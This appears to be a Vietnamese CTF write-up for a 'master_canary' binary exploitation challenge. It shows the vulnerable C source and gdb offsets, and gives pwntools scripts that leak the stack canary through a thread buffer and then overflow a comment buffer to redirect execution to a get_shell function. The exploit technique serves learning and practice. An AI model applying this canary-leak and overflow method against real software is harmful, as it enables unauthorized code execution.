

# Master canary
# Thông tin về challenge

```
master_canary: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, not stripped
```

Chế độ bảo vệ

```
Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

Ta thấy có lớp bảo vệ Canary được bật

Liệt kê những đoạn quan trọng của code

```c
int main(int argc, char *argv[])
{
    size_t size;
    pthread_t thread_t;
    size_t idx;
    char leave_comment[32];

    initialize();

    while (1)
    {
        printf("1. Create thread\n");
        printf("2. Input\n");
        printf("3. Exit\n");
        printf("> ");
        scanf("%d", &idx);

        switch (idx)
        {
        case 1:
            if (pthread_create(&thread_t, NULL, thread_routine, NULL) < 0)
            {
                perror("thread create error");
                exit(0);
            }
            break;
        case 2:
            printf("Size: ");
            scanf("%d", &size);

            printf("Data: ");
            read_bytes(global_buffer, size);

            printf("Data: %s", global_buffer);
            break;
        case 3:
            printf("Leave comment: ");
            read(0, leave_comment, 1024);
            return 0;
        default:
            printf("Nope\n");
            break;
        }
    }

    return 0;
}
```

Chương trình cho ta nhập 3 lựa chọn <br>
* `case 1: ` tạo một thread và bắt đầu thực thi từ hàm `void *thread_routine()` <br>

```c
char *global_buffer; // global
void *thread_routine() {
    char buf[256];

    global_buffer = buf;
}
```

* `Case 2: ` Yêu cầu nhập vào một size và đọc dữ liệu vào với độ dài bằng size bằng hàm `read_bytes(global_buffer, size);`, sau đó chương trình sẽ in dữ liệu ta vừa nhập vào (phần này để leak canary)

```c
void read_bytes(char *buf, size_t size)
{
    size_t sz = 0;
    size_t idx = 0;
    size_t tmp;

    while (sz < size)
    {
        tmp = read(0, &buf[idx], 1);
        if (tmp != 1)
        {
            exit(-1);
        }
        idx += 1;
        sz += 1;
    }
    return;
}
```
* `case 3: ` yêu cầu nhập vào `    char leave_comment[32]` 1024 byte và ở đây gây ra lỗi `BOF` <br>
Và chương trình còn cho ta một hàm để lấy shell nhưng không được gọi bởi hàm main
```c
void get_shell()
{
    system("/bin/sh");
}
```
# Exploit
Vì chương trình cho hàm `get_shell()` nên mục tiêu của ta sẽ là làm sao để chương trình thực thi được hàm này.<br>
Ý tưởng ở đây là ta sẽ lợi dùng lỗi `bof` ở `case 3` để chuyển hướng thực thi.<br>
Tuy nhiên như ở trên ta thấy lớp bảo vệ `Canary` được bật vì vậy nếu ghi đè như bình thường thì sẽ không được.<br> 
Và ta sẽ phải đi tìm giá trị của canary.
# GDB debug

Dòng được gạch chân là dấu hiệu của canary được tạo ngẫu nhiên và được lưu ở vị trí fs+0x28 (rõ hơn là ở `fs_base+0x28`)<br>
```c
Canary  : (value: 0x57ccd7ce0a2a8600)
```
Đặc điểm giá trị của canary là đều có byte 00 ở cuối, mà hàm printf sẽ không đọc khi gặp byte 00 vì vậy ta sẽ chèn 1 byte ở cuối để khi printf ta sẽ lấy được giá trị của canary. <br>

Đầu tiên ta chọn option 1 và nhảy đến hàm `thread_routine()`<br>


Ở hàm này ta thấy canary cũng đừng lấy từ fs:0x28 giống với hàm main(), do đó các hàm đều dùng chung 1 giá trị canary<br>

Vì buf được nhập nên ta sẽ tìm địa chỉ của buf và tính offset của nó tới canary.<br>


`&buf = rbp-0x110 = 0x007ffff7d7dd40` 


`&canary = 0x7ffff7d7e668`

`offset = &canary - &buf = 2344`
Tuy nhiên ta cần thêm 1 byte để ghi đè byte 00 của canary nên `offset = 2345` 

* script leak canary
```python
from pwn import *

p = process('./master_canary')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Size: ', b'2345')
payload = b'a'*2345
p.sendafter(b'Data: ', payload)
p.recvuntil(payload)
canary = int.from_bytes(p.recv(7), 'little') << 8
log.info("Canary: " + hex(canary))
p.interactive()
```
* lưu ý ở đây canary nhận được là 8 byte nhưng byte cuối là bất kì, để lấy được canary đúng nhất thì ta chỉ nhận 7 byte và dịch 8 bit để byte là 00 `canary = int.from_bytes(p.recv(7), 'little') << 8` <br>
Sau khi leak được canary thì chương trình lại quay lại từ đầu để chọn các option, bây giờ ta chọn option 3. <br>

```c
case 3:
    printf("Leave comment: ");
    read(0, leave_comment, 1024);
    return 0;
```
xem stack

phần ghạch đỏ là giá trị canary nằm trước rbp và ta phải ghi lại giá trị của địa chỉ này. <br>

* payload hoàn chỉnh
```python
from pwn import *

exe = ELF('./master_canary')
p = process(exe.path)

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Size: ', b'2345')
payload = b'a'*2345
p.sendafter(b'Data: ', payload)
p.recvuntil(payload)
canary = int.from_bytes(p.recv(7), 'little') << 8
log.info("Canary: " + hex(canary))


p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'> ', b'3')

payload = b'a'*40 # offset canary va leave_comment
payload += p64(canary)
payload += b'b'*8 # ghi de rbp
payload += p64(exe.sym['get_shell'] + 2)
p.sendafter(b'comment: ', payload)

p.interactive()
```


Lấy được shell

